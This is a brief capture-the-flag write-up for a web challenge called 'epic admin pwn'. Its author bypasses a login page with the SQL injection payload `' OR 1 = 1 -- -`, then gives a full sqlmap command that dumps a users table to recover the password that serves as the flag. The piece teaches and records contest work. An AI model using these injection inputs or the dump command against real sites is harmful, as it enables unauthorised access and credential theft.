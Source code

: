 ** **Write-up : epic admin pwn***

this challenge is epic i promise the flag is the password. 

> DESCRIPTION

First when u open the website there are login page so tried SQL Injection To check it . i use `' OR 1 = 1 -- -` its work but we don't get any flag just welcome message u_u so is injectable but no flag there cuz the flag is the password so i use  *sqlmap* to save time .

    sqlmap -u 'http://web2.utctf.live.5006/' --data="username=';SELECT * from user --&pass=" --risk=1 -D public -T users --dump

![enter image description here](https://lh3.googleusercontent.com/4COo739x7evAl1ymRkVrUlbmRLAyuy7Qn-S5YPoux7enKQw7EI7V32U4xJSlrmK9dGxe4QZ9PQas0mXB5MYwBxZ5XSCV5HwtFjIlYWXNk82FebXrOyr4jyFIPYjCnecukJyfGCwNzTUQUuhXvPD6_wOTPOQrMgt_eABbZPqpdCDiBaz6oAAOIAhWOf3FLhRmu4u0S3lEaqLd_eZritFq_6pXJNtCjKAnHYQO3FKFknaFlIsK5FxCt0_Pcpnbfozx91ktHdc-D3kz-ho7YeC1D0CzcThWkfiYbHJ-jWTtrA6RlHBODGY0Nr8Et5c1F2B4KEQXYVR07gxjC7iwGbxMm3WtubpnErNwxMGaB39adpjjtfHEoR93iU477ttaC4AYjhfTpwFFmwg5TEeD8mZNroXhiNPicrPliiYmWOtPLn_EcATi6XaNNsQ9PH3fzV6I4yCLvnBPKrJa_w_C00AdpdkjzQt7q3EJuOSPwov0eKe_555ccXDvOacW_lmeJhk0bsXK0hMUCvrGWyRfbDBNvKSKvvfGleXr1reHvguH5yDjYN--m7-hWA0lSlif4vu9iJIMv0og8QDWXEYML6eyOnsENXJT6YKto_j1KwTX4bKztSuHF1bUcfqWauD3KnxVXzXIdzowwSpCrRxD5QbCNgoUPuH5As23WGvgQvPYNlhIgSU3Usbu=w777-h374-no)

